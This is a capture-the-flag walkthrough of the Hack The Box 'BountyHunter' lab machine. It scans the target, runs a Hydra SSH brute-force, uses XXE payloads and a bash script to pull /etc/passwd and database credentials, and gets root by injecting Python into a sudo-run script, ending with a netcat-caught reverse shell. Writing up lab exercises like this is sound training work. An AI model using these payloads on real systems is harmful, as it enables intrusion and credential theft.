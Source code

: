 # BountyHunter
### A demonstration walkthrough of a pen test process using HTB's B.o.u.n.t.y-H.u.n.t.e.r with some normal dead ends as an example.  

Basic scan of all ports 
```
nmap -p- 10.10.11.100
```

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.100 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.10.11.100
nikto -h 10.10.11.100
```
Interesting Results (NMAP): Running OpenSSH 8.2p1 and Apache httpd 2.4.41 on Ubuntu  
Interesting Results (NIKTO):  OSVDB-3093: /db.php  

**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\napache\nbountyhunter' > usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > passwords
hydra -L usernames -P passwords -e nsr ssh://10.10.11.100 
```
Check out related the CVEs
```
https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/Apache-Http-Server.html
searchsploit apache httpd
```
```
https://www.cvedetails.com/vulnerability-list/vendor_id-97/product_id-585/Openbsd-Openssh.html
searchsploit openssh
```
**Decision (NMAP):** Software is relatively current, no standout CVEs that allow remote access, so we will move on.  
**Decision (NIKTO):** The OSVBD has been superseded by CVE.  Not much to work with except `php` is being used.

Fire up dirb (command line) or dirbuster (GUI) to find any unlinked files with common names.  
Normally we would poke the web server while dirb or dirbuster does it thing
```
dirb http://10.10.11.100 /usr/share/dirb/wordlists/small.txt
```
```
dirbuster 
```
Interesting Results (DIRB):  The `/*.php` files and `/resources/README.txt`

**Decision:** Not much to do with the php.  The `/resources/README.txt` provides an interesting check list and *indications that this is a development box*.

Start ZAP.  Main menu under `Web Application Analysis`.  A good basic start is to use `manual explore` and enter data into any forms you see.  Then click `Attack` on the `Automated Scan` tab. The attack will run for a couple minutes.  On the `Alerts` tab clicking the `SQL Injection` alert will show the following image.  
![zap-bountyhunter-scan](/images/zap-bountyhunter.png)

**Scan results decisions**
Discard the results that might allow us to attack users of this site. `Cross-Domain` `Anti-CSRF` `X-Frame-Options` `X-Contetn-Tpye-Options` `Cache-control` `Vulnerable JS`  We are only interested in attack the site not leveraging the site to attack its users.  
Discard `Private IP Disclosure`.  Real world this would be interesting, but on Hackthebox the attack scope is just 10.10.11.100.  
`Directory Browsing` gives us the same result as `dirb`.  
`SQL Injection` is the only high priority alert.  This finding conflicts with the README.txt that states the database is not connected.  Also, the response states *If DB were, would have added:*  Looking at the attack Zap added ' OR 1=1 --' to what looks like the base64 encoded port data.  

**DEAD END:**  SQL injection on the portal form.  

**Interesting** The post data is base64 encoded XML.  

### Fire up Burpsuite and start playing with website
`Proxy` tab then click `Open Browser` enter URL `10.10.11.100` and turn `Intercept off`  
Click on the visible links in the browser to populate the `Target/SiteMap` tab.  

Interesting:  Only `/tracker_*.php` takes parameters and the response echos the input parameters.  
The following screenshot of Burp shows the POST request data is base64 encoded XML.

![burp screenshot](/images/tracker-request.png)

###  php and xml is XXE possible? [OWASP XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

In Burp, send php request to repeater.  
Use CyberChef to Base64 then URL encode new POST data attempting XXE.  

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe 'yoyo ma'> ]>
<bugreport>
  <title>&xxe;</title>
  <cwe></cwe>
  <cvss></cvss>
  <reward></reward>
</bugreport>
```
![chef-encoding-setup](/images/chef-encoding-setup.png)

Paste the encoding back into Burp.  
![xxe-trial](/images/xxe-trial.png)

## Success!

Try a real attack to retrieve `/etc/passwd`  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]><bugreport><title>&xxe;</title><cwe></cwe><cvss></cvss><reward></reward></bugreport>
```
![xxe-password-return](xxe-password-return.png)

Only one user has a login shell available `development`  

Try a  real attack to retrieve `/db.php`  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php">]><bugreport><title>&xxe;</title><cwe></cwe><cvss></cvss><reward></reward></bugreport>
```
![xxe-dbphp-return](/images/xxe-dbphp-return.png)

The above process automated as a script.  *Note:* if using the HTB's PWNbox.  You do not have html2markdown installed.  Cut/Paste the curl return into CyberChef to see the interesting bits. 

```
    #!/bin/bash
    data='<?xml  version="1.0" encoding="UTF-8"?><!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]><bugreport><title></title><cwe></cwe><cvss></cvss><reward>&xxe;</reward></bugreport>'
    user=$(bash -c "curl -X POST --data-urlencode \"data=$(echo $data | base64 -w 0)\" 'http://10.10.11.100/tracker_diRbPr00f314.php'  | html2markdown | tail -n 2 | head -n 1 | base64 -d" 2>/dev/null | grep '/bin/bash$' | awk -F':' '{print $5}' | cut -d , -f1 | tail -n 1 | tr '[:upper:]' '[:lower:]') 
    data='<?xml  version="1.0" encoding="UTF-8"?><!DOCTYPE title [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php">]><bugreport><title></title><cwe></cwe><cvss></cvss><reward>&xxe;</reward></bugreport>'
    password1=$(bash -c "curl -X POST --data-urlencode \"data=$(echo $data | base64 -w 0)\" 'http://10.10.11.100/tracker_diRbPr00f314.php'  | html2markdown | tail -n 2 | head -n 1 | base64 -d" 2>/dev/null | grep -i '$dbpassword' | cut -d '"' -f 2)

    echo "Got SSH Creds ! Username= $user , Password= $password1"
```

Login with user credentials (Assuming password reuse)  
```
ssh development@10.10.11.100
```
`password = m19RoAU0hP41A1sTsq6K`


#### Get user the user flag

```
cat ~/user.txt
```

**DEAD END:** Enumerate privileges you already have on the system
```
find / -perm -4000 2>/dev/null
```
Nothing popped out to me.  Maybe try sudo?
```
sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
 ```
#### Example ticket file root.md

```
# Skytrain Inc
## Ticket to Ride
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('/bin/bash') == False
```
```sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py```
root.md
Show who you are
```id```

## Get Root flag!

```cat /root/root.txt```

Optional method: Reverse shell  
Start listener on attacker box  
```nc -lvnp 9999```

```
set ATTACK_IP="10.10.11.100"
set ATTACK_PORT=9999
cat root.md
# Skytrain Inc 
## Ticket to abc 
__Ticket Code:__
**102+ 10 == 112 and exec('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((os.environ.get("ATTACK_IP"),int(os.environ.get("ATTACK_PORT"))));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
```
